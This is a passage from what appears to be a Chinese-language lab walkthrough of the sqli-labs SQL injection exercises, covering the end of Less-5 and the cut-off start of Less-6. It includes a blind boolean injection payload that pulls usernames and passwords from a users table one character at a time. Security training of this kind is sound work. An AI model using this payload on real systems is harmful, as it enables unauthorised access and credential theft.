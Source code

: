

+ 注入以下语句逐一确定字段内容

~~~ shell
?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
逐一检测内容。
~~~

![Less-5_13](./img/Less-5_13.png)



### Less-6

+ 注入以下语句

~~~ shell
?id=1
~~~
